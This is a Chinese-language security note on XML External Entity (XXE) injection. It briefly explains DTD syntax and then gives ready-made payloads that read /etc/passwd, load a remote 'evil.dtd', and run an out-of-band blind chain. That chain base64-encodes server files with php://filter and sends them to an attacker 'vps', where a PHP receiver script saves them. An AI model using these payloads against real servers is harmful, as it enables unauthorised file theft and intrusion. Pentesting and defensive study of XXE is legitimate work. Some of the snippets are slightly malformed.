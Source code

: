 ```yaml
---
description: XML External Entity Injection
---
```


# XXE

攻击者可以通过 XML 的外部实体来获取服务器中本应被保护的数据。

对于XXE漏洞最为关键的部分是**DTD文档类型**，DTD 的作用是定义 XML 文档的合法构建模块。

当允许引用外部实体时，通过恶意构造，可以导致任意文件读取、执行系统命令、探测内网端口、攻击内网网站等危害。DTD 可以在 XML 文档内声明，也可以外部引用；libxml2.9.1及以后，默认不再解析外部实体。



### XML基础知识

XML文档结构包括`XML声明` ，`DTD文档类型定义` ，`文档元素` 。

```
// xml声明
<?xml version="1.0">
```

```
// 文档类型定义
<!DOCTYPE  note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to   (#PCDATA)>                     
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body   (#PCDATA)>
]>
```

```
// 文档元素
<note>
<to>George</to>
<from>John</from>                                
<heading>Reminder</heading>
<body>Don’t forget the meeting</body>
```

### 利用方式

#### 有回显XXE

```
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE c [
      <!ENTITY file SYSTEM "file:///etc/passwd">
  ]>
```

#### Bypass

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY  % d  SYSTEM "http://ip/evil.dtd" >
%d;
]>
<root>
<name>&b;</name>
</root>
```

```
// evil.dtd
<!ENTITY b SYSTEM "file:///etc/passwd">
```

#### blind XXE

```
  <?xml version="1.0" encoding="utf-8"?>
     <!DOCTYPE c [
        <!ENTITY  % a "<!ENTITY b 'http://www.xxx.com'>"
        %a;
     ]>
 <c>&b;</c>
```

#### Bypass

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY  % file  SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
<!ENTITY  % remote  SYSTEM "http://ip/evil2.dtd" >
%remote;
%all;
%send;
]>
```

```
// vps test.php
<?php
$file = "./test.txt";
$content = base64_decode($_GET['file']); 
file_put_contents($file , $content);
echo "\n"; 
?>
```

```
// vps evil2.dtd
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://ip/xxe/test.php?file=%file;'>"
>
```
